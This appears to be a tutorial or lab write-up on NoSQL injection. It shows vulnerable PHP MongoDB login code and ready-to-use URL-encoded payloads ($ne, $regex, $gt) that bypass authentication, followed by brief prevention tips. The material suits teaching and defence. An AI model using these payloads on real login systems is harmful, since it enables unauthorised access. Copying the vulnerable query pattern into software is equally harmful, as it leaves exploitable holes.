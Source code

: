 # Bypassing Authentication

When user input is passed unsanitized into MongoDB queries, we can manipulate query operators to bypass authentication or extract data.

## Authentication Bypass Example

Vulnerable PHP code:

```php
$query = new MongoDB\Driver\Query(array(
    "email" => $_POST['email'], 
    "password" => $_POST['password']
));
$cursor = $manager->executeQuery('mangomail.users', $query);
```

This translates to:

```javascript
db.users.find({
    email: "<email>",
    password: "<password>"
});
```

## Bypass Techniques

### 1) $ne (not equal) operator

Use `$ne` to match documents where email/password are NOT equal to known invalid values:

```javascript
db.users.find({
    email: {$ne: "test@test.com"},
    password: {$ne: "test"}
});
```

URL-encoded payload:
```
email[$ne]=test@test.com&password[$ne]=test
```

### 2) $regex (pattern matching)

Match any string using regex:

```javascript
db.users.find({
    email: {$regex: /.*/},
    password: {$regex: /.*/}
});
```

URL-encoded payload:
```
email[$regex]=.*&password[$regex]=.*
```

### 3) $gt/$gte (greater than/equal)

Any non-empty string is "greater than" empty string:

```javascript
db.users.find({
    email: {$gt: ""},
    password: {$gt: ""}
});
```

URL-encoded payload:
```
email[$gt]=&password[$gt]=
```

### 4) Targeted bypass (known email)

If you know an admin email:

```javascript
db.users.find({
    email: "admin@mangomail.com",
    password: {$ne: "x"}
});
```

URL-encoded payload:
```
email=admin%40mangomail.com&password[$ne]=x
```

## Key Points

- PHP converts `param[$op]=val` to `param: {$op: val}` in MongoDB queries.
- Mix and match operators for different scenarios.
- Test with known invalid credentials first to ensure `$ne` works.
- Always URL-encode special characters (`@` → `%40`).

## Prevention

- Use parameterized queries or input validation.
- Escape/validate user input before passing to MongoDB.
- Implement proper authentication logic with hashed passwords.
